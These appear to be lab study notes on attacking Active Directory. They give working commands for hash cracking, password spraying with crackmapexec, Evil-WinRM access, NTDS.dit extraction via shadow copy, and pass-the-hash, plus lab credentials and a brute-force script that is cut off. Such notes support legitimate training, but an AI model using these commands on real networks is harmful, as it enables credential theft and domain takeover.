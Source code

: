  Can also break hash wih:
 `sudo hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /opt/useful/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt -r /opt/useful/htb_resource/custom.rule`

 # Attacking Active Directory & NTDS.dit
 To generate username lists:
 [username-anarchy](https://github.com/urbanadventurer/username-anarchy)
 `./username-anarchy -i /home/ltnbob/names.txt `

Launching the attack:
`crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`

### Capturing NTDS.dit
Connecting to a DC with Evil-WinRM
`evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'`

### Checking Local Group Membership
```powershell
*Evil-WinRM* PS C:\> net localgroup

# Checking User Account Privileges including Domain
*Evil-WinRM* PS C:\> net user bwilliamson
```

### Creating Shadow Copy of C:
```powershell
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

# Copying NTDS.dit from the VSS
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

# Transfer back to attacker machine
```

# The by far easier way to dump ntds.dit below
We can also dump the `ntds` by:
`crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds`

We can also use `pass-the-hash considerations`, passing the hash instead of clear-text PW. 

`evil-winrm -i 10.129.201.57 -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"`

`evil-winrm -i 10.129.117.239 -u jmarston -p "P@ssword"'!'""`

Script for brute forceing UN and pw:

```bash
#!/bin/bash
namelist="name"

# Define the path to the password file
pw_path="/usr/share/wordlists/fasttrack.txt"

# Read the password file into an array
pw_list=($(< "$pw_path"))

# Loop through each username
for username in $namelist; do
  echo "Trying username: $username"
  
  # Loop through each password
  for password in "${pw_list[@]}"; do
    echo "Trying password: $password"
```